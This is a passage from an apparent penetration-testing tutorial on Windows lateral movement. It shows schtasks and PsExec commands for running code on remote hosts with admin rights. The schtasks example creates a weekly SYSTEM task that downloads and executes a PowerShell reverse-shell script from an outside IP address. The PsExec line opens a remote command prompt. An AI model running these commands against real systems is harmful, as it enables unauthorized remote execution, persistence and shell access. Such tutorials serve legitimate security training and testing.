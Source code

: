 
## Task Scheduler

Requires Admin | Local Group Membership | ATTACK ID
--- | --- | ---
Yes | `Administrators` | N/A

If we have local admin access to a remote system, it is possible to create scheduled tasks into the target machine. We will use the builtin utility `schtasks.exe`:

```
 schtasks /create /S TARGET /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.1:8080/Invoke-PowerShellTcp.ps1''')'"
```

The following parameter have been used:

* `/S TATGET` to specify the remote servers
* `/SC Weekly` to set the interval of when the task should be executed
* `/RU` the user the remote task is going to run as
* `/TN` the name of the task
* `/TR` the command to execute

In order to run the previously created task, it is possible to use this command:

```
schtasks /Run /S TARGET /TN "STCheck"
```

## PsExec

Requires Admin | Local Group Membership | ATTACK ID
--- | --- | ---
Yes | `Administrators` | N/A

To understand how exactly PsExec works is outside of the scope of this post, a good reference can be found [here](https://adamtheautomator.com/psexec-ultimate-guide/amp/?__twitter_impression=true).

In order to execute commands with PsExec, the following precondition must be met:

* `File and Printer sharing` must be enabled;
* The `ADMIN$` share should be available.

To launch an interactive cmd prompt using PsExec it is possible to use the following command:

```
psexec.exe -accepteula \\TARGET cmd.exe
```

![](assets/2019-10-04-lateral-movemen-megaprimer/86b3ceb1e0b10a31bdb4832124e5e6cd.png)
